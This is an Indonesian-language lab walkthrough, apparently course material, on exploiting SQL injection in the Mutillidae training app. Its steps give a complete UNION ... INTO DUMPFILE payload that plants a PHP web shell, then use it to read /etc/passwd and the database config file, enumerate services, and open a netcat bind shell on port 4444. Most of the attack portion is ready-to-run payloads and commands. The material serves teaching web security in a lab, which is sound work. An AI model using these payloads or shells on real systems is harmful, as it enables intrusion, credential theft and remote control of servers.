 # SQL Injection Union Exploit #3 (Create PHP Execution Script)

1. Masuk ke halaman sqli user info dengan cara klik menu pada sidebar kiri ```Owasp Top 10 -> A1 - Injection -> SQLi - Extract Data -> User Info```
![1](/lesson10/1.png)

2. Lakukan inspect element pada kolom ```name``` lalu ubahlah sizenya menjadi 100 ```size="100"```. lalu masukkanlah kode sqli union dengan OUTFILE execution script dengan query:
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' --
```
![1](/lesson10/2.png)

3. Setelah itu ketikkan pada url
```
http://10.151.36.156/mutillidae/execute_command
```
maka akan muncul sebuah halaman untuk mengexecute command linux.
![1](/lesson10/3.png)

4. kita dapat coba untuk cek user yang sedang kita pakai dan sedang ada di direktori mana kita berada dengan mengetikkan
```
whoami;pwd
```
maka akan muncul respon seperti pada di gambar
![1](/lesson10/4.png)

5. untuk melihat siapa saja user yang sedang login, kita dapat menggunakan command
```
w
```
![1](/lesson10/5.png)

6. untuk melihat user yang terdaftar kita dapat menggunakan Command
```
cat /etc/passwd
```
![1](/lesson10/6.png)
user yang mempunya string nologin berpotensi untuk diserang

7. untuk melihat service dan port yang sedang berjalan kita dapat menggunakan command
```
netstat -nao | grep "0.0.0.0:"
```
![1](/lesson10/7.png)

8. untuk melihat konfigurasi database, kita dapat melihat isi dari config.inc dengan melakukan ls (list directory) dan melihat disitu ada file ```config.inc``` yang bisa dibuka lewat url pada browser.
 * ![1](/lesson10/8.png)
 * ![1](/lesson10/9.png)

9. Selanjutnya kita akan melakukan shell exploitation dengan memasukkan command netcat untuk melakukan listen pada port tertentu
```
mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```
![1](/lesson10/10.png)

10. Untuk mengaksesnya, kita buka terminal dan mengakses port tersebut dengan netcat
```
nc 10.151.36.156 4444
```
![1](/lesson10/11.png)
